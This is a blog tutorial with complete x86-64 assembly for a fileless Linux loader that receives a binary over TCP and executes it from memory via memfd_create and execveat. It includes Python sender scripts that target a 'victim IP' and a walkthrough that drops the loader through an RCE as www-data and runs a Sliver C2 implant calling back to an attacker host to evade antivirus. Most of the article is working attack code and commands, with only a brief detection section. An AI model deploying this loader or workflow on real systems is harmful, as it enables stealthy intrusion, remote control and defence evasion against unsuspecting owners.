




Fileless Loader
Fileless Loader implemented in x86-64 assembly. Using only syscalls, no dependencies.
Responsible use
The content of this website is published exclusively for educational and informational purposes. The author does not promote, endorse, or accept responsibility for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out only in controlled environments, on systems you own, or with explicit and verifiable authorization from the system owner.
Introduction¶
Executing a binary without writing anything to disk is one of the foundations of modern evasion-oriented malware. The premise is straightforward: if the malicious executable never gets written to disk, security solutions based on filesystem analysis, such as antivirus software, EDRs with static detection capabilities, or filesystem-focused IDSes, lack a direct surface to act upon.
The technique detailed in this article exploits the Linux kernel's ability to create and execute anonymous, memory-backed files.
Execution Flow¶
The complete flow, from the incoming connection to binary execution in memory, is as follows:
- Entry point. A TCP socket is created and set to listen mode, waiting for incoming connections. When one arrives, it is accepted and a communication channel with the client is established.
- Child process creation. To avoid blocking the loader, the process forks at this point. The parent yields the connection and immediately returns to wait for the next one. The child retains it and continues the flow.
- Child session detachment. The child detaches from any active terminal or session to operate completely independently from the parent.
- Binary size reception. The client sends the size in bytes of the executable it is about to transmit. The child receives this information and stores it.
- Anonymous file creation. This file will reside exclusively in memory and is initially empty.
- Anonymous file expansion. The anonymous file is expanded to the exact size of the binary to be received (obtained in step 4).
- Shared mapping between process and file. The file is mapped into the child process's address space such that any write to that memory region is reflected directly in the file.
- Binary reception. The child reads the binary content from the socket and writes it to the mapped region. As it does so, the anonymous file is simultaneously written with the executable's content.
- Mapping removal. The shared mapping has served its purpose, so it is removed from the child process's address space (the anonymous file remains intact).
- I/O redirection to the socket.
stdin,stdoutandstderrof the process are redirected to the client socket, so that any input or output from the executed binary travels directly over the network connection. - Execute the binary in memory. This operation is performed by pointing directly to the file descriptor that identifies the anonymous file.
You can visualize the execution flow in more detail here.
Step-by-Step Loader Walkthrough¶
This section covers the syscalls involved in each step, their arguments, implementation choices and the kernel constraints that shape the design.
Step 1: Entry Point¶
For the loader to receive binaries over the network, it first needs an entry point: a TCP socket the client can connect to. This involves three chained steps:
-
socketcreates the communication endpoint and returns a file descriptor that identifies it. It is told to work with IPv4 addresses (AF_INET) and to use the connection-oriented TCP protocol (SOCK_STREAM).```nasm ; SOCKET mov rax, 41 ; syscall number (socket) mov rdi, 2 ; address family (AF_) -> AF_INET == 2 mov rsi, 1 ; socket type (SOCK_) -> SOCK_STREAM == 1 xor rdx, rdx ; protocol (0 = default) syscall
; ---------------------------------- mov r12, rax ; socket FD - ; ----------------------------------```
-
bindassociates the socket with an address and port, established via thesockaddr_instructure for IPv4. Without this call, the socket exists but has no assigned address (the client has nowhere to connect to).```nasm ; .data section
; sockaddr_in structure setup sockaddr_in: dw 2 ; sin_family = AF_INET dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11) dd 0x00000000 ; sin_addr = 0.0.0.0 (accepts from all network interfaces) dq 0 ; sin_zero (padding)
; Memory layout (16 bytes): ; ; 02 00 5C 11 00 00 00 00 00 00 00 00 00 00 00 00 ; └──┘ └──┘ └─────────┘ └──────────────────────┘ ; 0-1 2-3 4-7 8-15 ; Fam Port IP Padding ```
nasm ; BIND mov rax, 49 ; syscall number (bind) mov rdi, r12 ; socket file descriptor lea rsi, [rel sockaddr_in] ; pointer to struct sockaddr with the local address mov rdx, 16 ; size of the address structure in bytes syscall -
listenmarks a socket as passive, telling the kernel that this socket will be used to accept incoming connections rather than initiate outgoing ones.nasm ;LISTEN mov rax, 50 ; syscall number (listen) mov rdi, r12 ; socket file descriptor mov rsi, 1 ; maximum size of the pending connections queue syscall
At this point the socket is configured and listening, but there are no active connections yet.
accept blocks execution until there is a pending connection in the queue. At that point it creates a new connected socket and returns the file descriptor that references it, leaving the original socket free to keep accepting connections.
; accept_loop allows the loader to handle multiple connections
accept_loop:
;ACCEPT
mov rax, 43 ; syscall number (accept)
mov rdi, r12 ; listening socket descriptor (after bind + listen)
xor rsi, rsi ; pointer to struct sockaddr to store the client's address (or NULL)
xor rdx, rdx ; pointer to socklen_t with the addr buffer size (or NULL)
syscall
; ----------------------------------------
mov r13, rax ; connected socket FD -
; ----------------------------------------
Step 2: Child Process Creation¶
If the process handled each incoming binary sequentially, it could not accept a new connection until execution of the previous payload finished. The solution is to fork the process at the moment a new connection arrives, so the parent immediately returns to the listen loop and the child handles loading and execution independently.
For this, we use clone3 instead of the classic fork. clone3 does not accept flags directly as an argument. Instead, it operates on a struct clone_args of 88 bytes that precisely describes the child process's behavior.
; .data section
; Arguments defining the process clone
; struct clone_args (88 bytes)
clone_args:
dq 0 ; flags
dq 0 ; pointer to store pidfd (if CLONE_PIDFD)
dq 0 ; pointer to write child TID (if CLONE_CHILD_SETTID)
dq 0 ; pointer to write TID in parent (if CLONE_PARENT_SETTID)
dq 17 ; signal to send to parent when child exits (e.g. SIGCHLD = 17)
dq 0 ; base address of child stack
dq 0 ; size of child stack
dq 0 ; pointer to TLS structure (if CLONE_SETTLS)
dq 0 ; pointer to namespace-forced PID array
dq 0 ; number of elements in set_tid
dq 0 ; target cgroup FD (if CLONE_INTO_CGROUP)
; CLONE3
mov rax, 435 ; syscall number (clone3)
lea rdi, [rel clone_args] ; pointer to struct clone_args
mov rsi, 88 ; size of the clone_args structure
syscall
cmp rax, 0
jg accept_loop ; rax > 0 → PARENT: return to wait
; rax == 0 → CHILD: continue
Step 3: Child Session Detachment¶
The child process inherits the parent's session and process group, as well as the associated controlling terminal. This is a problem: if that terminal closes, the kernel sends SIGHUP to all processes in the group, which would terminate the loading in progress.
setsid resolves this by creating a new session, making the child its sole member and leader. No longer belonging to any session with a controlling terminal, the child becomes completely isolated and can operate autonomously.
Step 4: Binary Size Reception¶
To create the anonymous file with the correct size and map it into memory, the loader needs to know in advance how many bytes the binary it will receive occupies. The client will send this data before the payload itself, in this case, as a 64-bit integer (8 bytes) in little-endian format.
recvfrom reads data from the connected socket and writes it into a buffer.
; recvfrom may return fewer bytes than requested; the recv_lg loop
; accumulates in a register the offset until all 8 expected bytes arrive.
recv_lg:
add r15, rax
;RECVFROM
mov rax, 45 ; syscall number (recvfrom)
mov rdi, r13 ; socket descriptor
lea rsi, [rel buff_lg] ; address of the buffer to store data
add rsi, r15
mov rdx, 8 ; maximum buffer size (bytes to receive)
sub rdx, r15
xor r10, r10 ; receive flags (MSG_*)
xor r8, r8 ; pointer to struct sockaddr (or NULL)
xor r9, r9 ; pointer to socklen_t (or NULL)
syscall
cmp rax, 0
jg recv_lg
Step 5: Anonymous File Creation¶
With the binary size now known, the next step is to create the container that will store it. We need a file that can be operated on but leaves no trace in the filesystem. For this, we can use the functionality offered directly by the Linux kernel.
memfd_create creates an anonymous file in memory and returns a file descriptor that identifies it. The file resides in an internal kernel tmpfs mount (not in any filesystem visible to the user) and is backed exclusively by RAM (and swap if necessary).
The flag MFD_EXEC (0x0010) is used to explicitly mark that the file will contain executable content.
;MEMFD_CREATE
mov rax, 319 ; syscall number (memfd_create)
lea rdi, [rel memfd_name] ; pointer to C-string with the name (informational)
mov rsi, 0x0010 ; behavior flags (MFD_*) MFD_EXEC == 0x0010
syscall
; --------------------------------
mov r14, rax ; memfd FD -
; --------------------------------
Step 6: Anonymous File Expansion¶
A file just created with memfd_create has zero size (0 bytes). This is a problem for the next step, since mmap needs concrete pages on which to establish the mapping and an empty file has none allocated.
ftruncate sets the size of a file referenced by a file descriptor. If the specified size is smaller than the current one, content beyond that point is lost. If larger, the file is extended with zero bytes.
After this call, the file has the correct size and the necessary pages are reserved, ready to be mapped and written.
; FTRUNCATE
mov rax, 77 ; syscall number (ftruncate)
mov rdi, r14 ; file descriptor
mov rsi, [rel buff_lg] ; new size in bytes
syscall
Step 7: Shared Mapping Between Process and File¶
With the anonymous file created and sized, the next step is to map its contents into the child process's address space via mmap, which returns a virtual address from which to operate directly on it.
The mapping option depends on a flag:
- With
MAP_SHARED, process and file share the same physical pages in the page cache, so any write to the mapped region is immediately reflected in the file (this is what we want). - With
MAP_PRIVATE, the kernel applies copy-on-write: writes generate a private copy visible only to the process, leaving the underlying file unmodified.
;MMAP
mov rax, 9 ; syscall number (mmap)
mov rdi, 0 ; suggested address (0 = let the OS choose)
mov rsi, [rel buff_lg] ; size in bytes to allocate (e.g. 4096 = 1 page)
mov rdx, 3 ; protection permissions (PROT_*) PROT_READ | PROT_WRITE = 0x3
mov r10, 1 ; mapping options (MAP_*) MAP_SHARED = 0x01
mov r8, r14 ; file descriptor (for file mapping; -1 if not applicable)
mov r9, 0 ; offset within the file (multiple of page size)
syscall
Step 8: Binary Reception¶
Data is read directly from the socket and written to the mapped region with no intermediaries. Since process and file share the same physical pages in the page cache, writing to the mapped region is simultaneously a write to the anonymous file.
As with size reception, the loop handles partial receives until all expected bytes are complete.
mov r12, rax ; RAX - contains the base address of the reserved memory block
xor r15, r15 ; R15 - contains the offset into the shared memory region
recv_all:
add r15, rax
;RECVFROM
mov rax, 45 ; syscall number (recvfrom)
mov rdi, r13 ; socket descriptor
mov rsi, r12 ; address of the buffer to store data
add rsi, r15
mov rdx, [rel buff_lg] ; maximum buffer size (bytes to receive)
sub rdx, r15
xor r10, r10 ; receive flags (MSG_*)
xor r8, r8 ; pointer to struct sockaddr (or NULL)
xor r9, r9 ; pointer to socklen_t (or NULL)
syscall
cmp rax, 0
jg recv_all
Once the loop completes, the anonymous file contains the full binary, ready to execute.
Step 9: Mapping Removal¶
Once the binary is complete in the anonymous file, the shared mapping that links the child process to the file is no longer needed. munmap releases that region from the address space.
; MUNMAP
mov rax, 11 ; syscall number (munmap)
mov rdi, r12 ; base address of the mapping to remove
mov rsi, [rel buff_lg] ; size in bytes to unmap
syscall
Step 10: I/O Redirection to the Socket¶
Before executing the binary, it is advisable to redirect stdin, stdout and stderr of the child process to the client socket. This allows sending input to the payload remotely and reading its output.
dup3 duplicates an existing file descriptor (FD) onto another specific FD number, closing the target FD first if it was already open. After the call, both point to the same open file description (same offset and file status flags).
dup3 is executed in a loop to redirect the mentioned descriptors to the client socket:
xor rsi,rsi ; target file descriptor (0=stdin, 1=stdout, 2=stderr)
dup3:
; DUP3
mov rax, 292 ; syscall number (dup3)
mov rdi, r13 ; existing file descriptor to duplicate
xor rdx, rdx ; flags: 0 or O_CLOEXEC (0x80000)
syscall
inc rsi
cmp rsi, 3
jl dup3
| Iteration | RSI | Effect |
|---|---|---|
| 1 | 0 | stdin → client socket |
| 2 | 1 | stdout → client socket |
| 3 | 2 | stderr → client socket |
After the loop, all standard I/O of the child process is bound to the socket. When execveat replaces the process image with that of the loaded binary, the binary will inherit the already-redirected descriptors, as a result, any write to stdout or stderr will reach the client over the TCP connection and any read from stdin will use data sent by the client.
Step 11: Execute the Binary in Memory¶
The final step is to execute the binary now residing in the anonymous file. The problem is that execve requires a path and the anonymous file has none. This is where execveat comes in.
execveat allows executing a binary referenced by a file descriptor. When the AT_EMPTY_PATH flag is used and an empty string is provided as the path, the kernel uses the FD as the identifier of the file to execute.
;EXECVEAT
mov rax, 322 ; syscall number (execveat)
mov rdi, r14 ; base directory descriptor (or AT_FDCWD, or executable FD)
lea rsi, [rel exec_path] ; pointer to C-string with the path (can be "")
xor rdx, rdx ; pointer to array of C-string pointers (NULL-terminated)
xor r10, r10 ; pointer to array of C-string pointers (NULL-terminated)
mov r8, 0x1000 ; resolution flags (AT_*) AT_EMPTY_PATH = 0x1000
syscall
Full Code (fileless_loader.asm)¶
section .data
memfd_name db '', 0 ; memfd name
exec_path db '', 0 ; empty path so execveat executes by FD
; Arguments defining socket properties
; struct sockaddr_in (16 bytes)
sockaddr_in:
dw 2 ; sin_family = AF_INET
dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
dd 0x00000000 ; sin_addr = 0.0.0.0 (accepts from all network interfaces)
dq 0 ; sin_zero (padding)
; Arguments defining the process clone
; struct clone_args (88 bytes)
clone_args:
dq 0 ; flags CLONE_PIDFD = 0x00001000
dq 0 ; pointer to store pidfd (if CLONE_PIDFD)
dq 0 ; pointer to write child TID (if CLONE_CHILD_SETTID)
dq 0 ; pointer to write TID in parent (if CLONE_PARENT_SETTID)
dq 17 ; signal to send to parent when child exits (e.g. SIGCHLD = 17)
dq 0 ; base address of child stack
dq 0 ; size of child stack
dq 0 ; pointer to TLS structure (if CLONE_SETTLS)
dq 0 ; pointer to namespace-forced PID array
dq 0 ; number of elements in set_tid
dq 0 ; target cgroup FD (if CLONE_INTO_CGROUP)
section .bss
buff_lg: resq 1 ; buffer to store the binary size (8 bytes)
section .text
global _start
_start:
; 1 - Create listening socket
; SOCKET
mov rax, 41 ; syscall number (socket)
mov rdi, 2 ; address family (AF_*)
mov rsi, 1 ; socket type (SOCK_*), optionally OR'd with flags
xor rdx, rdx ; protocol (0 = default)
syscall
; ----------------------------------
mov r12, rax ; socket FD -
; ----------------------------------
; BIND
mov rax, 49 ; syscall number (bind)
mov rdi, r12 ; socket file descriptor
lea rsi, [rel sockaddr_in] ; pointer to struct sockaddr with the local address
mov rdx, 16 ; size of the address structure in bytes
syscall
;LISTEN
mov rax, 50 ; syscall number (listen)
mov rdi, r12 ; socket file descriptor
mov rsi, 1 ; maximum size of the pending connections queue
syscall
accept_loop:
;ACCEPT
mov rax, 43 ; syscall number (accept)
mov rdi, r12 ; listening socket descriptor (after bind + listen)
xor rsi, rsi ; pointer to struct sockaddr to store client address (or NULL)
xor rdx, rdx ; pointer to socklen_t with addr buffer size (or NULL)
syscall
; ----------------------------------------
mov r13, rax ; connected socket FD -
; ----------------------------------------
; 2 - Fork child process and detach from parent
; CLONE3
mov rax, 435 ; syscall number (clone3)
lea rdi, [rel clone_args] ; pointer to struct clone_args
mov rsi, 88 ; size of the clone_args structure
syscall
cmp rax, 0
jg accept_loop
; SETSID
mov rax, 112 ; syscall number (setsid)
syscall
; 3 - Receive binary size in bytes
xor r15, r15
xor rax, rax
recv_lg:
add r15, rax
;RECVFROM
mov rax, 45 ; syscall number (recvfrom)
mov rdi, r13 ; socket descriptor
lea rsi, [rel buff_lg] ; address of the buffer to store data
add rsi, r15
mov rdx, 8 ; maximum buffer size (bytes to receive)
sub rdx, r15
xor r10, r10 ; receive flags (MSG_*)
xor r8, r8 ; pointer to struct sockaddr (or NULL)
xor r9, r9 ; pointer to socklen_t (or NULL)
syscall
cmp rax, 0
jg recv_lg
; 4 - Create anonymous tmpfs file
;MEMFD_CREATE
mov rax, 319 ; syscall number (memfd_create)
lea rdi, [rel memfd_name] ; pointer to C-string with the name (informational)
mov rsi, 0x0010 ; behavior flags (MFD_*) MFD_EXEC = 0x0010
syscall
; --------------------------------
mov r14, rax ; memfd FD -
; --------------------------------
; 5 - Pre-expand the tmpfs file to the required size (filled with zeros)
; FTRUNCATE
mov rax, 77 ; syscall number (ftruncate)
mov rdi, r14 ; file descriptor
mov rsi, [rel buff_lg] ; new size in bytes
syscall
; mmap with MAP_SHARED on a fd maps real pages of the file.
; If the file is 0 bytes there are no pages to map; the kernel rejects the operation.
; ftruncate pre-expands the file to the required size, reserving those pages in tmpfs,
; so that mmap has something concrete to work with.
; 6 - Create shared memory region between child process and tmpfs file
;MMAP
mov rax, 9 ; syscall number (mmap)
mov rdi, 0 ; suggested address (0 = let the OS choose)
mov rsi, [rel buff_lg] ; size in bytes to allocate (e.g. 4096 = 1 page)
mov rdx, 3 ; protection permissions (PROT_*) PROT_READ | PROT_WRITE = 0x3
mov r10, 1 ; mapping options (MAP_*) MAP_SHARED = 0x01
mov r8, r14 ; file descriptor (for file mapping; -1 if not applicable)
mov r9, 0 ; offset within the file (multiple of page size)
syscall
; 7 - Write received content to the shared memory region
xor r12, r12
mov r12, rax ; RAX - contains the base address of the reserved memory block
xor r15, r15 ; R15 - contains the offset into the shared memory region
xor rax, rax
recv_all:
add r15, rax
;RECVFROM
mov rax, 45 ; syscall number (recvfrom)
mov rdi, r13 ; socket descriptor
mov rsi, r12 ; address of the buffer to store data
add rsi, r15
mov rdx, [rel buff_lg] ; maximum buffer size (bytes to receive)
sub rdx, r15
xor r10, r10 ; receive flags (MSG_*)
xor r8, r8 ; pointer to struct sockaddr (or NULL)
xor r9, r9 ; pointer to socklen_t (or NULL)
syscall
cmp rax, 0
jg recv_all
; 8 - Detach child process from the shared memory region
; MUNMAP
mov rax, 11 ; syscall number (munmap)
mov rdi, r12 ; base address of the mapping to remove
mov rsi, [rel buff_lg] ; size in bytes to unmap
syscall
; 9 - Redirect stdin/stdout/stderr to the socket
xor rsi,rsi ; target file descriptor (0=stdin, 1=stdout, 2=stderr)
dup3:
; DUP3
mov rax, 292 ; syscall number (dup3)
mov rdi, r13 ; existing file descriptor to duplicate
xor rdx, rdx ; flags: 0 or O_CLOEXEC (0x80000)
syscall
inc rsi
cmp rsi, 3
jl dup3
; 10 - Execute the tmpfs file content
;EXECVEAT
mov rax, 322 ; syscall number (execveat)
mov rdi, r14 ; base directory descriptor (or AT_FDCWD, or executable FD)
lea rsi, [rel exec_path] ; pointer to C-string with the path (can be "")
xor rdx, rdx ; pointer to array of C-string pointers (NULL-terminated)
xor r10, r10 ; pointer to array of C-string pointers (NULL-terminated)
mov r8, 0x1000 ; resolution flags (AT_*) AT_EMPTY_PATH = 0x1000
syscall
exit:
; EXIT
mov rax, 60
xor rdi, rdi
syscall
Sender¶
Before transferring the binary, the client must send its size in a first fixed-length message (8 bytes in little-endian).
The following script sends both the size and the content:
import socket
import struct
import sys
HOST = '192.168.18.244' # victim IP
PORT = 4444 # port where the loader is listening
with open(sys.argv[1], 'rb') as f:
binary = f.read()
size = struct.pack('<Q', len(binary))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.sendall(size)
s.sendall(binary)
s.shutdown(socket.SHUT_WR)
print("[*] Waiting for output...\n")
try:
while True:
data = s.recv(4096)
if not data:
print("\n[!] Connection closed by server")
break
print(data.decode(errors='replace'), end='', flush=True)
except KeyboardInterrupt:
print("\n[*] Exiting...")
finally:
s.close()
If the binary to execute produces no output and expects no input, this simpler script can be used:
import socket
import struct
import sys
HOST = '192.168.18.244' # victim IP
PORT = 4444 # port where the loader is listening
with open(sys.argv[1], 'rb') as f:
payload = f.read()
size = struct.pack('<Q', len(payload))
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.connect((HOST, PORT))
s.sendall(size + payload)
print(f"[+] Sent {len(payload)} bytes")
Building¶
# Build the loader (attacker machine)
nasm -f elf64 fileless_loader.asm -o fileless_loader.o
ld fileless_loader.o -o fileless_loader
# Run the loader (listens on 127.0.0.1:4444) (victim machine)
./fileless_loader
# Send a binary to the loader (attacker machine)
python3 sender.py /<path>/<binary>
Practical Case¶
A Linux web server has been compromised by exploiting a remote code execution (RCE) vulnerability that allows running commands as www-data. The server has a security solution with real-time protection continuously monitoring filesystem activity. This mechanism analyzes read, write and execute operations on files, with the goal of identifying potentially malicious behavior.
In particular, the solution incorporates signature-based detection mechanisms, comparing files present in or recently added to the system against a database of signatures associated with known offensive tools and malware. When a match is detected, the system blocks or quarantines the file, preventing its execution and reducing the risk of system compromise.
The goal is to establish a complete Command & Control (C2) channel with the compromised machine, allowing interactive command execution, file upload/download, pivoting to other network segments and maintaining persistence. For this, a Sliver implant will be used. The implant is a static ELF binary that, when executed, autonomously establishes an encrypted (mTLS) connection back to the attacker's C2 server.
If the implant is transferred directly to the victim's disk, the security solution will detect it by its signature and delete it before it can execute. Sliver implants are quickly detected by security solutions due to their static signatures.
The loader bypasses this barrier by exploiting a key concept: the separation of the infrastructure that initiates execution from the executed content. The loader itself contains no offensive payload: there is no embedded shellcode, no exploits, no suspicious strings. To a signature-based scanner it is a clean binary. The implant, for its part, never touches disk. It arrives over the network and executes directly from an anonymous file that exists only as pages in RAM, making it invisible to the detection engine.
Preparation¶
C2 Infrastructure
On the attacker machine (192.168.18.245), the Sliver server is started and the implant for Linux x86-64 is generated. All configuration is embedded within the binary.
# Start Sliver (attacker machine)
sliver-server
# Generate the implant (attacker machine)
generate --mtls <sliver_lst_ip>:<sliver_lst_port> --os linux --arch amd64 --format exe --save <dst_path>

The result is a static ELF that, when executed, will establish an mTLS connection back to the C2.
Before executing the implant, remember to have the mTLS listener active to receive the incoming connection.

Loader
Configure the IPv4 address and listening port of the loader. The sockaddr_in structure of the loader will be configured with address 0.0.0.0 and port 4444. The address 0.0.0.0 tells the kernel that the socket should accept incoming connections on any available network interface on the machine, rather than restricting it to a specific IP.
; fileless_loader.asm (.data section)
sockaddr_in:
dw 2 ; sin_family = AF_INET
dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
dd 0x00000000 ; sin_addr = 0.0.0.0 (accepts from all network interfaces)
dq 0 ; sin_zero (padding)
Build the loader.

Deploying the Loader¶
Send the loader encoded as Base64 and execute it on the target machine via the RCE vulnerability. The loader will listen in the background on port 4444.
# Encode the loader to Base64 and copy to clipboard (attacker machine)
base64 -w 0 <loader> | xclip -selection clipboard
# Decode and store the loader on the target (victim machine)
echo '<Base64>' | base64 -d > /dev/shm/fl
# Grant execute permissions (victim machine)
chmod +x /dev/shm/fl
# Execute the loader in the background (victim machine)
./fl &
Even if the security engine scans the loader when it is created, it will find no offensive signatures.
Executing the Sliver Implant¶
From the attacker machine, send the implant to the loader.

The loader receives the implant, stores it in an anonymous file in memory, and executes it. The implant, in turn, starts executing and establishes the encrypted mTLS connection back to the C2.

The result is a fully operational C2 channel with all the capability Sliver offers. The implant, at no point, existed as a file on the filesystem.
Detection¶
Security solutions based on static filesystem analysis are ineffective against this technique. The loader, incorporating no offensive payload, presents no signatures or patterns that can be correlated with known malicious activity. The binary, for its part, never reaches disk, so there is no surface on which to identify the malicious activity. Identifying this technique requires a shift in focus toward runtime behavior monitoring. The main detection paths involve identifying active processes with no associated executable in the filesystem, monitoring network connections to systems outside the organization, or detecting patterns that deviate from the expected behavior for a given process or user.
It is worth noting that some modern security solutions already incorporate detection capabilities aimed at identifying the primitives used by this type of loader, such as the creation of anonymous files in memory with execute permission. The effectiveness of these detections varies depending on the product and its configuration.
Acknowledgements¶
Thanks for making it this far.
If you find errors or want to improve/extend the article, the blog content is open to Pull Requests. All contributions are welcome.
See you in the next article! ;)